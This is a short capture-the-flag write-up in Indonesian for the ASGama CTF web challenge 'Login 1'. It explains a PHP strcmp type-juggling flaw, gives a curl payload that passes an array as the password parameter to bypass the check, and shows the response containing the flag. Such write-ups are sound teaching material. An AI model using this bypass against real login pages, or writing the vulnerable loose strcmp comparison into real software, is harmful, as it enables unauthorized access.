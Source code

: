 # __ASGama CTF__ 
## _Login 1_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Web | 25 | l0l

**Description:** 

> http://ctf.asgama.web.id:40104/
>
> [login1.php](./login1.php)


### Login 1
Jika dilihat dari source codenya, program melakukan pengecekan apakah ada variable $_GET['password']. Jika ada, lakukan pengecekan dengan `strcmp` dengan key rahasia. 
```php
$secret = "==REDACTED==";
if(isset($_GET["password"])){
    $password = $_GET["password"];
    if(strcmp($password, $secret) == 0){ 
        echo "==REDACTED==";
    }else{
        echo "Password Salah";
    }
}
```

Kelemahannya disini adalah strcmp apabila yang dibandingkan bukan string, maka akan menghasilkan nilai 0. Misal kita bandingkan array dengan string menggunakan strcmp maka resultnya adalah 0.

### Payload
```
curl http://ctf.asgama.web.id:40104/\?password\[\]\=\[\]
```

### Result
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Login 1</title>
</head>
<body>
    <h1>Login 1</h1>
    <form action="">
        Password: <input type="password" name="password"><br>
        <input type="submit" value="Login">
    </form>
    <br />
<b>Warning</b>:  strcmp() expects parameter 1 to be string, array given in <b>/home/web/index.php</b> on line <b>19</b><br />
GamaCTF{aw4s_strcmp}</body>
</html>
```

### Flag
GamaCTF{aw4s_strcmp}
